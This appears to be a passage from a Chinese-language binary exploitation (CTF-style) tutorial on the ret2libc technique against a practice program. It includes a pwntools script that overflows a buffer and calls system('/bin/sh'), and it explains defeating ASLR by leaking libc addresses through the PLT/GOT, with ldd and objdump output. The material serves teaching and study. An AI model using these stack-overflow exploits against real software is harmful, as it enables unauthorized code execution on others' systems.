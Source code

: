 ### 测试
```
from pwn import *

p = process('./ret2libc3')

offset = 112
system_addr = 0xf7e19d10
binsh = 0xf7f588cf

payload = flat(['a'*112,system_addr,0xdeabeef,binsh])

p.sendline(payload)
p.interactive()
```
------------

## 4. 两个都没有&有ASLR
通过`sudo cat /proc/[pid]/maps`或者`ldd`查看，你会发现libc.so地址每次都是变化的
```
$ ldd ret2libc3
	linux-gate.so.1 (0xf7f43000)
	libc.so.6 => /lib32/libc.so.6 (0xf7d4c000)
	/lib/ld-linux.so.2 (0xf7f45000)

han at ubuntu in ~/ck/pwn/linux/ret2libc
$ ldd ret2libc3
	linux-gate.so.1 (0xf7f96000)
	libc.so.6 => /lib32/libc.so.6 (0xf7d9f000)
	/lib/ld-linux.so.2 (0xf7f98000)
```
那么如何解决地址随机化的问题呢？思路是：我们需要先泄漏出libc.so某些函数在内存中的地址，然后再利用泄漏出的函数地址根据偏移量计算出system()函数和/bin/sh字符串在内存中的地址，然后再执行我们的ret2libc的shellcode。既然栈，libc，heap的地址都是随机的。我们怎么才能泄露出libc.so的地址呢？方法还是有的，因为程序本身在内存中的地址并不是随机的，如图所示：

![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1563267241/pwn/4a7227aa9f00bd2fd45d363da4cf25c6fd425638.jpg)
也就是说程序内存映像是没有随机的


首先我们利用`objdump`来查看可以利用的plt函数和函数对应的got表：
```
$ objdump  -d -j  .plt ./ret2libc3

./ret2libc3:     file format elf32-i386


Disassembly of section .plt:

08048420 <.plt>:
 8048420:	ff 35 04 a0 04 08    	pushl  0x804a004
 8048426:	ff 25 08 a0 04 08    	jmp    *0x804a008
 804842c:	00 00                	add    %al,(%eax)
	...

08048430 <printf@plt>:
 8048430:	ff 25 0c a0 04 08    	jmp    *0x804a00c
 8048436:	68 00 00 00 00       	push   $0x0
 804843b:	e9 e0 ff ff ff       	jmp    8048420 <.plt>

08048440 <gets@plt>:
 8048440:	ff 25 10 a0 04 08    	jmp    *0x804a010
 8048446:	68 08 00 00 00       	push   $0x8
 804844b:	e9 d0 ff ff ff       	jmp    8048420 <.plt>

08048450 <time@plt>:
```